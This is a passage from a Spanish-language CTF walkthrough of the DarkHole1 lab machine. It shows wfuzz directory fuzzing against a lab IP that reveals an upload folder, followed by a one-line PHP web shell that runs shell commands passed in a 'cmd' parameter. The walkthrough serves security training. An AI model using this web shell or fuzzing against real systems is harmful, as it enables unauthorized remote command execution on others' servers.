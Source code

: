 Vemos que se ha enviado correctamente, sin embargo, no tenemos una forma de saber donde se están almacenando los archivos, para ellos a fuzzear directorios para ver si existe algún directorio que nos sirva:

```
wfuzz -c --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 200 http://192.168.233.129/FUZZ
```
Y encontramos algo:
```
000000366:   301        9 L      28 W       319 Ch      "upload"
```

Existe un directorio **upload**, vamos a verlo:

![](/imagenes/DarkHole1/darkhole1_13.png)

Aquí se guardan las cosas que subimos, podemos observar que está nuestro archivo de prueba:

![](/imagenes/DarkHole1/darkhole1_14.png)

Vamos a intentar subir un archivo php malicioso que nos permita controlar mediante una variable **cmd** los comandos que queremos ejectuar en el sistema:

```php
<?php
echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?>
```
